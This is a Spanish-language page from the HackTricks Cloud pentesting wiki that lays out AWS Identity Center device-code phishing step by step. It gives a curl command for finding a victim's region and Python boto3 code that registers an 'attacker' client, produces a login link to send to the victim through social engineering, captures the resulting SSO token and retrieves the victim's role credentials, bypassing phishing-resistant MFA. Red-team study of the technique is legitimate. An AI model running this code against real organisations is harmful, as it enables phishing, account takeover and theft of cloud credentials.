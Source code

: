 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## AWS Device Code Phishing

Propuesto inicialmente en [**esta publicación de blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), es posible enviar un **enlace** a un usuario que usa AWS SSO que si el **usuario acepta** el atacante podrá obtener un **token para hacerse pasar por el usuario** y acceder a todos los roles a los que el usuario puede acceder en el **Identity Center**.

Para realizar este ataque los requisitos son:

* La víctima necesita usar **Identity Center**
* El atacante debe conocer el **subdominio** usado por la víctima `<victimsub>.awsapps.com/start`

Solo con la información anterior, el **atacante podrá enviar un enlace al usuario** que si **es aceptado** otorgará al **atacante acceso a la cuenta del usuario de AWS**.

### Ataque

1. **Encontrar el subdominio**

El primer paso del atacante es averiguar el subdominio que la empresa víctima está usando en su Identity Center. Esto se puede hacer mediante **OSINT** o **adivinanza + BF** ya que la mayoría de las empresas usarán su nombre o una variación de su nombre aquí.

Con esta información, es posible obtener la región donde se configuró el Identity Center con:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generar el enlace para la víctima y enviarlo**

Ejecuta el siguiente código para generar un enlace de inicio de sesión de AWS SSO para que la víctima pueda autenticarse.\
Para la demostración, ejecuta este código en una consola de python y no la cierres ya que más tarde necesitarás algunos objetos para obtener el token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envía el enlace generado a la víctima usando tus increíbles habilidades de ingeniería social.

3. **Espera hasta que la víctima lo acepte**

Si la víctima **ya estaba conectada en AWS**, solo necesitará aceptar la concesión de permisos; si no lo estaba, necesitará **iniciar sesión y luego aceptar la concesión de permisos**.\
Así es como se ve el aviso hoy en día:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtén el token de acceso SSO**

Si la víctima aceptó el aviso, ejecuta este código para **generar un token SSO suplantando al usuario**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
El token de acceso SSO es **válido por 8h**.

5. **Suplantar al usuario**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Es divertido saber que el ataque anterior **funciona incluso si se está utilizando un "MFA infalsificable" (webAuth)**. Esto se debe a que el **flujo de trabajo anterior nunca deja el dominio OAuth utilizado**. A diferencia de otros ataques de phishing donde el usuario necesita suplantar el dominio de inicio de sesión, en este caso, el flujo de trabajo del código de dispositivo está preparado para que un **código sea conocido por un dispositivo** y el usuario pueda iniciar sesión incluso en una máquina diferente. Si se acepta el aviso, el dispositivo, solo con **conocer el código inicial**, podrá **recuperar credenciales** para el usuario.

Para más información sobre esto [**consulta este post**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Aprende y practica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprende y practica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
